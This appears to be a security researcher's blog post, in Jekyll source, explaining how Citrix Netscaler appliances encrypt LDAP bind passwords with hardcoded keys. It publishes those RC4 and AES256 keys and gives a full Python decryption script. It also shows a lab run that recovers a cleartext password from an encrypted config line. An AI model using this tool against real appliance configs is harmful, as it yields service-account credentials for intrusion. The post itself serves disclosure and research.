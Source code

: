 ```yaml
---
layout: post
title: Citrix Netscaler config decryption
permalink: /posts/citrix-decrypt/
redirect_from:
  - /citrix-decrypt/
---
```


## Netscaler

Citrix Netscaler (or whatever they're calling it now) uses hardcoded encryption keys to encrypt at least some passwords stored in the appliance config, most importantly for LDAP bind passwords. As a side note - **the passwords for accessing the appliance itself via CLI or GUI are hashed, not encrypted**. You can still attempt to break these using hashcat but it requires bruteforcing.

However, some other values in the config like LDAP bind passwords are encrypted and can be recovered as by default they are encrypted by hardcoded keys that seem to be common to all Netscalers. These static encryption keys are compliled into the `libnscli90.so` library on the appliance. As of 10.5 this was the RC4 key `2286da6ca015bcd9b7259753c2a5fbc2`. At some point Citrix changed the default key and cipher used to encrypt cleartext values. The default key is now 
```
351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9
```
and the appliance now (12.0) uses AES256-CBC instead of RC4. I figured out after a quick bit of RE that the version signifier seems the be the `-encryptmethod` flag, where `ENCMTHD_3` signifies it is using AES256-CBC and the new default key.   


### Additional notes
If you add an old style (RC4) encrypted value to a newer appliance it will decrypt it, then re-encrypt using the new ENCMTHD_3 technique. A small number examples online appear to use the `ENCMTHD_2` value, which is uses the new key and AES256-ECB instead of CBC. 

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance and do a little more reversing, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/)*


## Decrypting
Here's a quick guide on how to decrypt these LDAP passwords:

1. If there is a `-kek` flag on the config line this means it is using a seperate key to encrypt the password instead of the hardcoded one. In theory you should be able to pull this off a compromised Netscaler but a config alone wont give you the cleartext. See [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/). I will look into doing this at some point and update this post.
2. If there is no `ENCMTHD_` value, it is likely encrypted using the original RC4 method (I'm calling this ENCMTHD_1). You can decode this using the below script. 
3. Otherwise if there is `ENCMTHD_3` or `ENCMTHD_2` and no `-kek` it uses the new AES256-CBC or AES256-ECB encryption method. You can also decode this using the below script.

An example line from a new config may look like 
```
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
```
indicating that it is encrypted with AES256-CBC using the default key.

Extract the ldapBindDnPassword and pass it to the script:
```
# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

## Decrypting script
The below python script will decrypt LDAP and likely similar encrypted values (haven't tested anything else) obtained from the config.
{% highlight python %}
#!/usr/bin/python

import base64
from Crypto.Cipher import AES,ARC4
import binascii,sys


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for crypto snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def decrypt( self, enc, mode ):
        if mode == "ENCMTHD_2":
                cipher = AES.new(self.key, AES.MODE_ECB )
        elif mode == "ENCMTHD_3":
                iv = "\x00" * 16
                cipher = AES.new(self.key, AES.MODE_CBC, iv )

        else:
            print "Invalid mode"
            return False

        return unpad(cipher.decrypt( enc ))


def main():
        #Keys hardcoded into netscaler libnscli90.so
        aeskey = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")
        rc4key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 3:
            ciphertext = sys.argv[1]
            mode = sys.argv[2]

            if mode == "ENCMTHD_3" or mode == "ENCMTHD_2":
                c = AESCipher(aeskey)
                decoded = c.decrypt(binascii.unhexlify(ciphertext),mode)
                if mode == "ENCMTHD_3":
                        print decoded[16:]
                else:
                        print decoded

            elif mode == "ENCMTHD_1": #old rc4 mode
                out_cipher = ARC4.new(rc4key)
                decoded = out_cipher.decrypt(binascii.unhexlify(ciphertext))
                print decoded


if __name__ == "__main__":
        main()
{% endhighlight %}



#### Runthrough

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

